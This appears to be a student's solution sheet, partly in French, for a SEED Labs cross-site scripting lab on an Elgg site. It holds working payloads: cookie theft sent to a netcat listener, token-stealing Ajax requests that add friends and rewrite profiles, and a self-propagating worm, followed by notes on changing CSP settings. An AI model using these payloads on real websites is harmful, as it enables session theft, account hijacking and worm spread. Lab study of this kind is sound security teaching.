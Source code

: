 
Task 1. ``<script>alert('XSS');</script>``

Task 2. ``<script>alert(document.cookie);</script>``

Task 3.  nc -lknv 5555

```
<script>document.write('<img src=http://10.9.0.1:5555?c='
+ escape(document.cookie) + ' >');
</script>
```

Task 4. 
```
<p><script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
//Construct the HTTP request to add Samy as a friend.
var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token;
//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script></p>
```

Task 5.

La requête POST de l'EDIT du profil est de la forme :

```
__elgg_token=AJGD4QJ00SGPPKfkbVEwOg&__elgg_ts=1695402086&name=Samy&description=<p><script type="text/javascript"> window.onload = function () { var Ajax=null; var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; var token="&__elgg_token="+elgg.security.token.__elgg_token; //Construct the HTTP request to add Samy as a friend. var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token; //Create and send Ajax request to add friend Ajax=new XMLHttpRequest(); 
Ajax.open("GET", sendurl, true); Ajax.send(); } </script></p> &accesslevel[description]=2&briefdescription=&accesslevel[briefdescription]=2&location=&accesslevel[location]=2&interests=&accesslevel[interests]=2&skills=&accesslevel[skills]=2&contactemail=&accesslevel[contactemail]=2&phone=&accesslevel[phone]=2&mobile=&accesslevel[mobile]=2&website=&accesslevel[website]=2&twitter=&accesslevel[twitter]=2&guid=59
```

Réponse à la task :

```
<script type="text/javascript">
window.onload = function(){
var userName="&name="+elgg.session.user.name;
var guid="&guid="+elgg.session.user.guid;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
var content=token+"&"+ts+"&"+userName+"&description=I have been pirated&accesslevel[description]=2&briefdescription=&accesslevel[briefdescription]=2&location=&accesslevel[location]=2&interests=&accesslevel[interests]=2&skills=&accesslevel[skills]=2&contactemail=&accesslevel[contactemail]=2&phone=&accesslevel[phone]=2&mobile=&accesslevel[mobile]=2&website=&accesslevel[website]=2&twitter=&accesslevel[twitter]=2&"+guid;
var samyGuid=59;
var sendurl="http://www.seed-server.com/action/profile/edit";
if(elgg.session.user.guid!=samyGuid) // so that Samy's description doesn't change with the message put in the content in "description=".
{
var Ajax=null;
Ajax=new XMLHttpRequest();
Ajax.open("POST", sendurl, true);
Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
Ajax.send(content);
}
}
</script>
```

à mettre dans la description (EDIT HTML) du profil de Samy dans EDIT PROFILE.

Task 6.

```
<script id="worm">
window.onload = function(){

var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
var jsCode = document.getElementById("worm").innerHTML; // only gives the content of the worm function without header and tail tags
var tailTag = "</" + "script>";
var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);

var userName="&name="+elgg.session.user.name;
var guid="&guid="+elgg.session.user.guid;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;

var content=token+"&"+ts+"&"+userName+"&description="+wormCode+"&accesslevel[description]=2&briefdescription=&accesslevel[briefdescription]=2&location=&accesslevel[location]=2&interests=&accesslevel[interests]=2&skills=&accesslevel[skills]=2&contactemail=&accesslevel[contactemail]=2&phone=&accesslevel[phone]=2&mobile=&accesslevel[mobile]=2&website=&accesslevel[website]=2&twitter=&accesslevel[twitter]=2&"+guid;

var samyGuid=59;
var sendurl="http://www.seed-server.com/action/profile/edit";

if(elgg.session.user.guid!=samyGuid) // so that Samy's description doesn't change with the message put in the content in "description=".
{
var Ajax=null;
Ajax=new XMLHttpRequest();
Ajax.open("POST", sendurl, true);
Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
Ajax.send(content);
}
}
</script>
```

Task 7.

http://www.example32a.com/ : pas de protection CSP

http://www.example32b.com/ : protections CSP via fichier de config -> sources fiables : self et tout ce qui finit par ".example70.com", même www.toto.example70.com ou www.jevaistepirater.example70.com...

http://www.example32c.com/ : protections CSP via code PHP ->sources fiables : self, tout ce qui a comme nonce : 111-111-111, et tout ce qui finit par ".example70.com", même www.toto.example70.com ou www.jevaistepirater.example70.com/importerWorm.js...

Config changée pour www.example32b.com : 

```
script-src 'self' *.example70.com *.example60.com \
```

puis sauvegarder le fichier, puis :

```
docker cp apache_csp.conf idContainer:/etc/apache2/sites-available // ne marche que si on se trouve actuellement dans le répertoire Labsetup/image_www, sinon modifier le chemin vers le premier fichier
```

Et enfin :

```
docksh idContainer
service apache2 restart
```

Code changé pour www.example32c.com :

```
"script-src 'self' 'nonce-111-111-111' 'nonce-222-222-222' *.example60.com *.example70.com"
```

puis sauvegarder le fichier, puis :

```
docker cp phpindex.php idContainer:/var/www/csp/phpindex.php // ne marche que si on se trouve actuellement dans le répertoire Labsetup/image_www/csp, sinon modifier le chemin vers le premier fichier
```

